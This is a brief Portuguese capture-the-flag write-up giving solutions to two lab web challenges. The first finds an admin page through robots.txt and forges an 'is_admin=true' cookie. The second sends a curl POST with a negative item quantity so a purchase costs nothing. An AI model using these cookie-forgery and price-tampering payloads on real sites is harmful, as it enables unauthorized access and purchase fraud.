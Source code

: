 # Respostas

- Hidden Admin

Primeiro é necessario acessar o arquivo disponibilizado para os buscadores, onde se localiza todas as paginas do site.

nome_do_site/robots.txt

com isso encontrara o link para a pagina de administrador e acesse essa pagina

agora so faltar setar o Cookie de administrador com esse comando via console do browser.

``` document.cookie="is_admin=true"```

- Banana Shopping

Por meio de uma requisição POST com CURL envie os parametros de forma que o valor fique em zero.

``` curl -X POST -d 'apppe=0&banana=72&grape=0&lemon=-216&mango=0&watermelon=0'  http://lab.shellterlabs.com:33705/ ```
